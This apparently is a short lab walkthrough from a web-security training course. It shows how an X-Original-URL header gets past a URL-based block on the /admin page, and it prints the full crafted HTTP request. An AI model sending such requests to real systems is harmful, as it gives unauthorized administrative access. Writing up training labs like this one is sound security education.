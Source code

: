 # Lab: URL-based access control can be circumvented

- The application denies access to `/admin`.
- But we can access the same endpoint if we add a `HTTP header` - `X-Original-URL`.
```
GET / HTTP/1.1
Host: ac9b1fe71ff98ea9c0160a6e00cb00f1.web-security-academy.net
X-Original-URL: /admin
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented
Connection: close
Cookie: session=dHrwYfDvTGU7ukW9V6jERUKsMES64xRF
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

- It is a case of vertical BAC through bypassing URL restriction by `X-Original-URL`.
